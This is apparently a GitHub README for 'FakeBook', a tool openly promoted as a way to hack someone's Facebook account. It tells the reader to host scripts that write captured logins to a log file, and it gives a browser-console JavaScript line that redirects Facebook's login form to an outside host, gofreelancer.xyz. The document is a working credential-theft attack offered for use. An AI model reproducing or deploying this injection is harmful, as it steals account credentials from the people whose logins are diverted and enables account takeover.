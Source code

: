 # FakeBook - JavaScript inject0r
Hack Someone Facebook With JavaScript inject0r

Upload All the scripts from <strong>https://github.com/aghanathan/FakeBook</strong> into your Web Hosting (e.g. <b>'/public_html/FakeBook'</b>)
It Will Create a text file ('log.txt') (e.g. <b>http://gofreelancer.xyz/FakeBook/log.txt</b>)

<h3><u>How To Inject & use JavaScript to change the form action</u></h3>
<ul>
  <li>Open <strong>https://www.facebook.com</strong> with <b>Google Chrome</b> Browser</li>
  <li>Right-click on any page element and select <b>Inspect Element</b> and then <b>Console</b></li>
  <li>Copy & Paste (<b>Crtl+V</b>) this a line Javascript:<br>
    <code>document.getElementById('login_form').action = 'http://gofreelancer.xyz/FakeBook/login.php';</code>
  </li>
</ul>
